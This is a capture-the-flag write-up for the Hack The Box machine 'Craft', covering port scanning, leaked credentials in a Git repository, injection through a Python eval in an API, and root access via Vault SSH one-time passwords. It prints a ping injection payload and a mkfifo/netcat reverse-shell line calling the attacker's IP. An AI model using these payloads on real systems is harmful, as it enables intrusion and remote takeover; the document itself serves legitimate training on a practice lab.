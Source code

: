# 						  Hack The Box - Craft 

### Victim IP: 10.10.10.110 Victim OS: Linux
### Enumeration - Namp
```
nmap -sV -sC -oA nmap_full -p1,65535 10.10.10.110
Nmap scan report for 10.10.10.110
Host is up (0.13s latency).

PORT     STATE SERVICE  VERSION
22/tcp   open  ssh      OpenSSH 7.4p1 Debian 10+deb9u5 (protocol 2.0)
| ssh-hostkey: 
|   2048 bd:e7:6c:22:81:7a:db:3e:c0:f0:73:1d:f3:af:77:65 (RSA)
|   256 82:b5:f9:d1:95:3b:6d:80:0f:35:91:86:2d:b3:d7:66 (ECDSA)
|_  256 28:3b:26:18:ec:df:b3:36:85:9c:27:54:8d:8c:e1:33 (ED25519)
443/tcp  open  ssl/http nginx 1.15.8
|_http-server-header: nginx/1.15.8
|_http-title: About
| ssl-cert: Subject: commonName=craft.htb/organizationName=Craft/stateOrProvinceName=NY/countryName=US
| Not valid before: 2019-02-06T02:25:47
|_Not valid after:  2020-06-20T02:25:47
|_ssl-date: TLS randomness does not represent time
| tls-alpn: 
|_  http/1.1
| tls-nextprotoneg: 
|_  http/1.1
6022/tcp open  ssh      (protocol 2.0)
| fingerprint-strings: 
|   NULL: 
|_    SSH-2.0-Go
| ssh-hostkey: 
|_  2048 5b:cc:bf:f1:a1:8f:72:b0:c0:fb:df:a3:01:dc:a6:fb (RSA)
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port6022-TCP:V=7.80%I=7%D=12/19%Time=5DFC45CB%P=x86_64-pc-linux-gnu%r(N
SF:ULL,C,"SSH-2\.0-Go\r\n");
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Thu Dec 19 22:54:28 2019 -- 1 IP address (1 host up) scanned in 47.95 seconds   
```
### Enumerating the web page - https://craft.htb
![homepage](/images/1_test.py.png)

The "API" link points to api.craft.htb and the "Sign in" button to "gogs.craft.htb" therefore we add these as entries to our hosts file in other to be able to resolve and reach them.

### Enumeration - https://api.craft.htb
Small API with basic GET, POST, PUT, DELETE actions, might be an interesting point of entry.
Authentication required for POST, PUT
![api_craft](/images/api_craft.png)

### Enumeration - https://gogs.craft.htb
![gogs](/images/gogs_craft.png)
Clicking on __Explore__ leads to the public content of the repository.

Repository housing the code and content for api.craft.htb:
![commits](/images/craft_api_repo.png)
Reviewing all issues,commits and merge requests, dinesh's credentials were accidentally commited and removed: 
![dinesh_creds](/images/dinesh_creds.png)
The issue fix by dinesh also shows a dangerous python function (eval):
![eval_in_issue_fix](/images/eval_in_issue_fix.png)
The eval command resides in the POST brew function in brew.py and accepts user input.

The discovered credentials can be used in test.py
![1_test.py](/images/1_test.py.png)


### Initial foothold - Exploiting python eval function
Test 1: On local system:
![Test 1](/images/test1.png )

That works.
Test 2: with a similar "if" statement like in test.py:
![Test 2](/images/test2.png)

That works too, however there is no result returned when it is tried on the victim end.

Test 3: Ping from victim to local machine:
tcpdump -i tun0 -nnv icmp

Payload (test.py): 
```brew_dict['abv'] = '__import__("os").system("ping -c 3 10.10.14.4")' ```
 
Test 4. Reverse shell (http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet):
Several failed till the netcat (without -e) option.

The payload in __test.py__ becomes: 
```brew_dict['abv'] = '__import__("os").system("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.4 4445 >/tmp/f")'```

![Test 4](/images/test3.png)

It's says root! Well that was easy! 
But wait no user.txt or root.txt flags. Of course it couldn't be that easy 

Running "cat /etc/issue", LinEnum and linuxprivchecker again show that we are in a docker container
Release: Alpine Linux 3.9

### Obtaining User privileges  – user.txt
Dump database credentials – dbtest.py
![dbtest.py](/images/dbtest.py.png)

Modify the SQL in the try statement to select all users from the database
![db_dump](/images/dump_users.png)

Authenticate with discovered credentials and enumerate the git repository
All commits/merge requests ==> ssh private key and vault write commands are discovered
![gilfoyle_ssh_key](/images/gilfolye_ssh.png)
  
Save the ssh private key, apply the normal permissions (chmod 400), and then authenticate with it and enter gilfoyle's password (dumped from the db/git password) as passphrase.
![gilfoyle_ssh_key](/images/user.txt.png)

### Elevating to root – Leveraging Vault SSH Secrets Engine
After obtaining user access on the machine more enumeration is required to discover interesting escalation vectors. Running linuxenum and privesc scripts did not recover any vulnerabilities right away but did point out the vault write.

Exploring vault:
![vault_secrets](/images/vault_secrets_list.png)

Gilfoyle's OTP setup:

![otp_setup](/images/vault_write_ssh_otp.png)

After reviewing the SSH Secrets Engine Documentation: https://www.vaultproject.io/docs/secrets/ssh/one-time-ssh-passwords.html 

![vault_write_ssh_otp](/images/vault_write_ssh_otp_new.png)

Then SSH to the host using the generated key and the root user:
![root.txt](/images/root.txt.png)

Conclusion:
This machine simulates a lot of real world scenarios. I was delighted at every discovery, learned a lot and reminded myself once again the importance of enumeration during a penetration test.
